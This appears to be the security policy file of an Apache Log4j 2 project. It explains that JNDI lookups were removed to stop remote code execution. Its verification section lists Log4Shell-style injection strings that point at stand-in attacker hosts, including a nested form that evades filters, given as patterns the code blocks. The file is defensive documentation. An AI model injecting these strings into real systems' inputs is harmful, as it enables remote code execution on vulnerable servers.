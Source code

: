 # Security Policy

## Supported Versions

Only the most recent release of Apache Log4j 2 is supported.

## JNDI Vulnerability Mitigation

### Security Hardening - JNDI Lookup Removal

As a critical security hardening measure, **JNDI functionality has been completely removed** from the log4j-core module to prevent remote code execution vulnerabilities. This comprehensive removal eliminates the ability for attackers to trigger malicious JNDI lookups through log message patterns, ensuring complete protection against JNDI-based attacks.

### Technical Implementation

The following security measures have been implemented:

- **Complete JNDI Removal**: The `org.apache.logging.log4j.core.lookup.JndiLookup` class has been entirely removed from log4j-core
- **Interpolator Protection**: The lookup interpolator has been modified to skip JNDI registration and reject JNDI patterns
- **Pattern Blocking**: String substitution now actively blocks and rejects `${jndi:...}` patterns 
- **Fail-Safe Controls**: System property `log4j2.disable.jndi=true` provides additional administrative control
- **Defense in Depth**: Multiple layers of protection prevent JNDI resolution even in misconfigured environments

### Impact on Existing Configurations

**Important Notice for Users**: If your Log4j configuration previously used JNDI lookups (patterns like `${jndi:ldap://...}`, `${jndi:rmi://...}`, or similar), these will no longer function and will return empty values or be blocked entirely.

### Migration Guidance

For users who previously relied on JNDI lookups:

1. **Environment Variables**: Replace JNDI lookups with environment variable lookups using `${env:VARIABLE_NAME}`
2. **System Properties**: Use system property lookups with `${sys:property.name}`
3. **Map Lookups**: Consider using map-based lookups for dynamic configuration values
4. **Static Configuration**: Replace dynamic JNDI values with static configuration where appropriate

### Security Verification

This implementation blocks the following attack patterns:
- `${jndi:ldap://malicious.server/payload}`
- `${jndi:rmi://attacker.com/object}`
- `${jndi:dns://evil.domain/query}`
- Nested variations like `${${lower:jndi}:ldap://...}`

All such patterns will be safely rejected without performing any network operations or remote class loading.

## Reporting a Vulnerability

If you have encountered an unlisted security vulnerability or other unexpected behaviour that has security impact, please report them privately to the [Log4j Security Team](mailto:private@logging.apache.org).

## Past Vulnerabilities

See [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html).
